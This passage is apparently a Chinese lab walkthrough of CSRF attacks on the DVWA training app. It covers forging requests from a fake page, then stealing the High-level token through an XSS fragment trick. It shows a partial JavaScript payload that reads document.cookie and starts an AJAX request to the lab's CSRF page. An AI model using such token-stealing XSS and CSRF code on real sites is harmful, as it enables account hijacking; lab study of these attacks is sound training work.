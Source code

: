 手工指定策略  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWO5tT7ta184Gq6fkc4E7Nibc0icWic1qicfhF3fBwxHjfJddGibBqbujoCL6g/640?wx_fmt=png&from=appmsg "")  
  
<meta name="referrer" content="no-referrer-when-downgrade">  
  
  
修改完成，我们再打开假冒页面进行访问发送  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOhWDSxXSRfAV6Dia7wkbg31ZUmwAs1iau27cQ8iaE0UbRVdFaDmcv4Brcw/640?wx_fmt=png&from=appmsg "")  
  
抓包看一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOJxMW9nNSym2gMCnpwJR0eVGkFcevSzb83zwypfJfZAOGaoibyI4BibJg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOCl9UmFMVgxPbbum6uP3rNV1ZUKhXYpUlAKM0NiccBUicDr3ic8Pl9Mmgw/640?wx_fmt=png&from=appmsg "")  
  
  
  
任务三、基于DVWA的High级别实现CSRF攻击  
  
首先修改安全级别  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOmmLhl0rzrWj97ErjJfwnHsA2Hx2r3nM9P2WaGOn9gDkG18jmd8E2vQ/640?wx_fmt=png&from=appmsg "")  
  
分析源码，这里要求我们提交时候有一个token的验证，这个验证无法绕过，只能通过xss的方式盗取  
  
我们先进行一个xss的漏洞利用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOd5CDJkMpbkLHwT6xMSM9b7tsnE1PGicFvAUGeQwiayFUIeoniadeSf0BA/640?wx_fmt=png&from=appmsg "")  
  
这里可以看到设置了白名单，只能使用白名单中的字符  
  
  
思路就是使用#，#后的字符不会被发送到服务器，会在本地直接执行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWO5kUpyfLfIWhY5kDr69JvRV023gCGzA6iblEQY7T3GfjPlYibjc7BUKGA/640?wx_fmt=png&from=appmsg "")  
  
我们来构造一个js文件来进行csrf攻击  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUabooRtJPzULZ6HMWazXRWOy93BxcibSMxNPNeJHicdRsCkpqxIcRdsLJZ451EJ4bScgDvVLF5sInNQ/640?wx_fmt=png&from=appmsg "")  
  
//弹出 cookie  
  
alert(document.cookie);  
  
//定义 AJAX 加载的页面  
  
var theUrl = 'http://192.168.1.63/DVWA-master/vulnerabilities/csrf/';  
  
//匹配浏览器  
  
if (window.XMLHttpRequest){  
  
// IE7+, Firefox, Chrome, Opera, Safari  
  
xmlhttp=new XMLHttpRequest();  
  
}else{  
  
// IE6, IE5  
  